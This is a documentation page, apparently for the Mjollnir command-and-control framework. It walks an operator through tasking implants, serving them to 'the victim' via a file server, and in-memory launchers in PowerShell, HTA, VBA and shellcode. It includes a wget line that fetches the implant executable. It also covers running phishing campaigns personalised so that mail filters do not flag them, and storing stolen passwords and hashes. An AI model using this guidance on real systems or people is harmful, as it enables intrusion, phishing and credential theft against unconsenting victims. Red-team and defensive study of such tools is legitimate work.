

# Some more advanced Mjollnir's features

[< Index](index.md)

[> Interact with your Chocolate](chocolate-interaction.md)


So far, you know how to start a listener and how to build and interact with a Chocolate. Let's see some advanced features about **Mjollnir c2**.

## Different kind of tasks

Experimenting with your first Chocolate, you accessed it by clicking on the **Dashboard** tab. However there is a better way to do that. Click on the **Tasks** tab like the following:


You will see 4 new tabs:
* **Tasks**: allows you to see all your active Chocolates and interact with them the way you did by clicking on the **Dashboard** tab
* **Bulk task**: allows you to select a **group** of Chocolates and order them to execute a specific task
* **Batch task**: allows you to select one Chocolate and order it to execute tasks after tasks automatically
* **On registering task**: allows you to execute several tasks as soon as a Chocolate registers

Those four tabs are very usefull, and I am sure you already know when you could use them.

## Make your Chocolate downloadable

When you create a Chocolate, you may want it to be downloaded by the victim. Hopefully, this is easily feasible!

Once built, your agent will be available on the **Up/download** tab as the following:


And thus you can access it easily. But in order to do that, you will have to set a **File server** first.

To start a **File server** you have to go to the **Listeners** tab and select **File server**, and specify the **Bind address** and **Bind port**.


Then you should be able to download your Chocolate or some others file like:
```
wget http://IP:PORT/files/chocolate_win_http.exe
```

## Use a Launcher

So, ok it is nice to make your Chocolate downloadable, but sometimes you don't want to drop on the victim's disk your Chocolate. In that case, you would like to use **powershell**, **vba**, a **shellcode** and so on that will download your Chocolate and executes it in memory.

You can do that into Mjollnir. Select the **Launchers** tab like the following:


You have to specify the type of the launcher you would like to use:
* powershell
* hta
* vba
* shellcode
* pe

You can use the one you want or implement one that is not listed instead.

The **launcher name** is the name of the launcher that will be available into the **Up/download** tab. So you must start a **File server** first.

By the way, you have to specify the **file server ip** and the **file server port**.

And obviously you have to indicate the name of the Chocolate that will be downloaded. The Chocolate has to be available on the **Up/download** tab.

## Did you say Phishing?

Well, you know how to create your **launcher** that will download your **Chocolate** and executes it in memory. But how to make the victim download and execute your launcher?

There is a **Phishing** tab. Let's see it:


You can define the **campaign's name**, the **SMTP server** you want to use, as well as the **SMTP port**. 

You can define the **source email** / **source email password** that will send the phishing emails. The **display name** is the name that will appears into the victim's email box. 

You have to create an **email template** in HTTP format. You could add one attachement if needed.

The important point is the **Emails list**. The email list has a **?** next to it because it needs some explanations.

If you send, let's say, 2000 identical emails to a company, there are good chances that there will be tagged as phishing emails (well they are). But if each email is sligtly different from one to an other, perhaps user personalized, those emails will certainly not be tagged as phishing.

Knowing that, you have to create your template carefully included some \{\{TAG\}\} into it. Those \{\{TAG\}\} will also be into the **Emails lists**.

Here is an example of **template**:
```
<html>
    <body>
        Hello \{\{USERNAME\}\}, thank you for registering with the email: \{\{EMAIL\}\} at the date \{\{DATE\}\}

        Please submit that \{\{CODE\}\} to the application in order to validate your authentication.
    </body>
</html>
```

And here an example of **Emails list**:
```
EMAIL,USERNAME,DATE,CODE
thor@mjollnir.fr,Thor God of Thunder,01/01/1900,12345
freyja@mjollnir.fr,Freyja,02/02/1900,54321
odin@mjollnir.fr,Odin,03/03/1900,09876
```

You phishing campaign is availabe on the **Dashboard** tab:


You can click the corresponding raw, and update your campaign before submitting it !


## Save your loots

Now that you know how to propagate your Chocolate, and you get some importants informations such as **password** and **hash** of the victim machine, you may want to save them.

There is a **Loots** tab specially crafted for that:



[< Index](index.md)

[> Interact with your Chocolate](chocolate-interaction.md)